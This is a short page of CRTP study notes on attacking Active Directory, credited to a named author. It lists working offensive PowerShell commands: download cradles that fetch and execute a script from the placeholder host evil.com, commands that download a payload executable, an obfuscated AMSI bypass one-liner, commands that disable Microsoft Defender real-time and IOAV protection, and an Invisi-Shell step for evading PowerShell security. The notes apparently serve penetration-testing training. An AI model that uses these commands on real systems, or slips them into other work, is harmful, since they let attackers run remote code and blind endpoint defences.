 ```yaml
---
description: "Attacking and Defending Active Directory | credit goes to : Abhinandan Khurana (L0u51f3r007)"
---
```


# 📔 CRTP Notes

### Download executable Cradle

Old and lengthy -&#x20;

```
((New-Object Net.WebClient).DownloadString('http://evil.com/evil.ps1'))
```

New and better - (PSv3 onwards)

```
iex (iwr 'http://evil.com/evil.ps1')
```

NOTE : iwr is alias for **Invoke-WebRequest,** which can be used like -

```
Invoke-WebRequest -Uri "http://example.com/payload.exe" -OutFile payload.exe
or
iwr http://example.com/payload.exe -o payload.exe
```

### AMSI bypass -

```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

### Bypassing Real time monitoring (admin access) -

```
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
```

### Bypassing Powershell Security -

#### using #Invisi-Shell

With Admin privileges -

```
RunWithPathAsAdmin.bat
```
